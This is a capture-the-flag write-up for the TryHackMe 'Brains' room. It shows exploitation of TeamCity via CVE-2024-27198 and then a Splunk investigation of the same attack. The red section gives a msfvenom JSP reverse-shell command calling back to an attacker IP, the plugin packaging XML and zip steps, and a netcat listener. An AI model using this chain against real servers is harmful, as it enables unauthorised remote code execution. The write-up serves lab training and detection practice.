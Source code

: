 
**CTF**: [Brains](https://tryhackme.com/r/room/brains) - Easy

**Table of Contents**
- [RED](#red)
  - [Reconnaissance](#reconnaissance)
    - [TeamCity](#teamcity)
  - [Exploitation](#exploitation)
  - [Escalation](#escalation)
- [BLUE](#blue)
    - [1. What is the name of the backdoor user which was created on the server after exploitation?](#1-what-is-the-name-of-the-backdoor-user-which-was-created-on-the-server-after-exploitation)
    - [2. What is the name of the malicious-looking package installed on the server?](#2-what-is-the-name-of-the-malicious-looking-package-installed-on-the-server)
    - [3. What is the name of the plugin installed on the server after successful exploitation?](#3-what-is-the-name-of-the-plugin-installed-on-the-server-after-successful-exploitation)

# RED

## Reconnaissance
See what is running: `nmap $IP` and `nmap -p 22,80,50000 -sV $IP`
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Website on port `80` is basically empty.

### TeamCity

Nmap couldn't recognize the service running on port `50000`, after accessing we get into **TeamCity** 
(JetBrains) login page, which is a CI/CD tool, we can see that the version is `2023.11.3`. 

<img src="./red/Cattura3.PNG"/>

Searching for known exploits we can find [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) 
that is an authentication bypass vulnerability for TeamCity	<= 2023.11.3.
There are two exploits available, discovered the second exploit later, after I had already gained a web shell; the second exploit automates this process.
- [Auth Bypass](https://github.com/yoryio/CVE-2024-27198)
- [Auth Bypass + RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

> IMPORTANT: The following section will cover the manual exploitation to get the Web Shell. 

Using the first exploit we can create the new user:

<img src="./red/Cattura5.PNG"/>

Then I changed the password for `administrator` user under **Administration** -> **Users** -> **administrator**, 
as you can see below; even if this wasn't necessary, this is something I would look out for.

<img src="./red/Cattura9.PNG"/>

## Exploitation

While exploring the **Administration** dashboard we can see, at the bottom of the lateral panel the **Plugins** 
section that looks as follows:

<img src="./red/Cattura17.PNG"/>

I supposed we could upload a jar/jsp reverse shell as a plugin so I created one with `msfvenom`:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp
```

I tried to upload it; however, it required a ZIP file; so I added it to a zip folder, still got error...
At this point, I decided to reference the [Plugins Packaging](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html) 
documentation for TeamCity, there is what the zip folder should contain:
```
|- server
|    - shell.jar
|      - buildServerResources
|        - shell.jsp
|- teamcity-plugin.xml
```

So the steps to get the Web Shell from the **Plugins** page are: 
1. (*Done*) Create `shell.jsp`: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp`

2. Create `teamcity-plugin.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>shell</name>
        <display-name>shell</display-name>
        <description>a very useful plugin</description>
        <version>1.0</version>
        <vendor>
            <name>deez</name>
            <url>http://jomama.gov</url>
        </vendor>
    </info>
    <deployment use-separate-classloader="true" node-responsibilities-aware="true"/>
</teamcity-plugin>
```

1. Create `shell.jar`: `mkdir buildServerResources && mv shell.jsp buildServerResources/ && zip -r shell.jar buildServerResources/ && rm -fr buildServerResources/`

2. Zip shell folder: `zip -r shell.zip teamcity-plugin.xml shell.jar`

3. `nc -lnvp 4444` on Attacker Machine and we can then access `http://$IP:50000/plugins/shell/shell.jsp` to run the shell.

<img src="./red/Cattura26.PNG"/>

## Escalation

Actually, there isn’t much left to do after gaining the web shell; we can just go into the home and get `flag.txt` content:

<img src="./red/Cattura27.PNG"/>

**BONUS**: even if not required, try to get root. (it couldn't be easier)

# BLUE

> Disclaimer: I've never used Splunk before this CTF.

<img src="./blue/Cattura7.PNG"/>

### 1. What is the name of the backdoor user which was created on the server after exploitation?

There are various ways to create a backdoor on a machine, but the question gives us a hint: it is a new user; so we can create a table with the filter `* source="/var/log/auth.log"`, there, by hovering on "name" field, we can see the user: [REDACTED].

<img src="./blue/Cattura4.PNG"/>

### 2. What is the name of the malicious-looking package installed on the server?

This one took me some time, we know that we want to look for packages installed in the `dpkg.log`, however there are more than 3000 entries. 

To make the search easier I wanted to extract a list of the installed packages, so I asked GPT if there was a way to do it in Splunk, and it came up with the following filter: `source="/var/log/dpkg.log" "install" | sort _time | rex field=_raw "install (?<package_name>\S+)" | table package_name`; the package [REDACTED] looks like something malicious.

<img src="./blue/Cattura10.PNG"/>

<img src="./blue/Cattura11.PNG"/>

### 3. What is the name of the plugin installed on the server after successful exploitation?

To answer this question we need to dig into TeamCity logs since there we can find any activity related to plugin installation; we can create a table using the following filter: `* source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"`

The malicious plugin name is [REDACTED].

<img src="./blue/Cattura2.PNG"/>









